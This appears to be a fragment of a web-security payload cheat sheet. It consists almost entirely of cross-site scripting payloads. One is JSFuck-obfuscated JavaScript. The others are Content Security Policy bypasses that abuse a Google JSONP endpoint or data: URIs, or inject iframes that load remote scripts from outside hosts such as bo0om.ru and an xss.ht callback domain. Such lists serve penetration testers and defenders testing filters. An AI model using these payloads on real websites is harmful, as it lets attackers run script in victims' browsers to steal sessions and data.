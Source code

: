 	[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
  ##### CSP Bypass
	https://websecblog.com/vulns/google-csp-evaluator/
	<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"

	http://hsts.pro/csp.php?xss=f=document.createElement%28%22iframe%22%29;f.id=%22pwn%22;f.src=%22/robots.txt%22;f.onload=%28%29=%3E%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;
	script=document.createElement('script');
	script.src='//bo0om.ru/csp.js';
	window.frames[0].document.head.appendChild(script);

	https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f
	d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)

	<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

	<script src="data:,alert(1)">/</script>

